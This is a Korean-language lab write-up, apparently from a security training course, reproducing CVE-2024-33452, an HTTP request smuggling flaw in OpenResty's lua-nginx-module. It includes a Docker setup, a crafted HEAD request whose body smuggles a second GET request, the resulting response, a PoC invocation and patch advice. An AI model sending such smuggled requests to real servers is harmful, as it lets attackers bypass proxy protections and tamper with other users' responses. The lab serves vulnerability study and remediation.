



# HTTP Request Smuggling/CVE-2024-33452
> 화이트햇 스쿨 4기 17반 [장기태(@namu17)](https://github.com/namu17)

## 배경 설명
OpenResty는 Nginx를 기반으로 하여 LuaJIT를 결합한 웹 플랫폼입니다.

V.0.10.26 이하 버전의 OpenResty lua-nginx-module에서는 HTTP Request Smuggling 취약점이 존재합니다. 
해당 취약점은 변조된 HEAD Request에서의 Body를 별도의 새로운 Request로 처리하게 됩니다. 이를 통하여 공격자는 프런트엔드 프록시 보호 기능을 우회하고, 동일한 커넥션 풀에서의 사용자에게 악성 응답을 전송하거나 응답을 가로챌 수 있습니다.

### 참고자료
- https://www.cve.org/CVERecord?id=CVE-2024-33452
- https://www.wiz.io/vulnerability-database/cve/cve-2024-33452
- https://github.com/openresty/lua-nginx-module/blob/e5248aa8203d3e0075822a577c1cdd19f5f1f831/src/ngx_http_lua_util.c

## 환경 설정
- V.0.10.26 이하 버전의 lua-nginx-module은 1.25.3.2 이하 버전의 OpenResty 내에 있습니다.
- 다음 명령을 통하여 OpenResty 1.25.3.2 테스트 환경을 시작합니다.
```
docker compose up -d
```
- 서버가 시작되면 ```http://your-ip:80```에서 index.html을 확인할 수 있습니다.

## 취약점
### 정보
일반적으로 HEAD Method는 GET Method와 유사하게 Request에서는 Body가 없으며, Response에서는 Body를 제외한 Header 내용만을 볼 수 있습니다. 그러나 ```nginx.conf```에서 ```content_by_lua_block```을 ```location```에 추가 후, HEAD Request의 Body에 다른 Method의 Request를 넣으면 OpenResty lua-nginx-module 내에서 HEAD Request에서의 Body가 있을 경우에 대해 그대로 처리해버리면서 그것에 대한 Response를 확인할 수 있습니다.
```
...
    if ((r->method & NGX_HTTP_HEAD) && !r->header_only) {
        r->header_only = 1;
    }
...
    if (r->header_only) {
        ctx->eof = 1;

        if (ctx->buffering) {
            return ngx_http_lua_send_http10_headers(r, ctx);
        }

        return rc;
    }
...
```


### 조건
nginx.conf 내에 ```content_by_lua_block```를 담은 location을 추가합니다.
```
# nginx.conf
...
        location = /vuln {
            default_type text/plain;
            content_by_lua_block { ngx.say("Hello World")}
        }
...
```


### 취약점 재현
#### Request
취약한 location(/vuln)에 대한 HEAD Request에서 Content-Length를 Header에 추가하고, Body 내에는 HTTP Request Smuggling하고자 하는 location을 입력합니다.
```
HEAD /vuln HTTP/1.1
Host: your-ip
Content-Length: 35

GET / HTTP/1.1
Host: your-ip


```

#### Response
HEAD Request에 대한 Response 뿐만 아닌 Body 내 GET Request의 Response(index.html)도 함께 확인할 수 있습니다.
```
HTTP/1.1 200 OK
Server: openresty/1.25.3.2
Date: Fri, 10 Jul 2026 02:07:23 GMT
Content-Type: text/plain
Connection: keep-alive

HTTP/1.1 200 OK
Server: openresty/1.25.3.2
Date: Fri, 10 Jul 2026 02:07:23 GMT
Content-Type: text/html
Content-Length: 224
Last-Modified: Thu, 09 Jul 2026 04:38:04 GMT
Connection: keep-alive
ETag: "6a4f25ac-e0"
Accept-Ranges: bytes

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    Test Page
</body>
</html>
```

#### PoC.py
```
python PoC.py your-ip
```


### 환경 종료
```
docker compose down
```

## 정리
- CVE-2024-33452는 Openresty lua-nginx-module 내의 HEAD Request 처리 미흡으로 인해 발생하는 HTTP Request Smuggling입니다.
- OpenResty 1.27.1.1에서 취약점이 패치된 lua-nginx-module 0.10.27으로 업데이트되었습니다.
- 대응 방안으로는 1) OpenResty 1.27.1.1 이상 버전으로 업데이트, 2) HEAD Request에 대한 Body 제한이 있습니다.
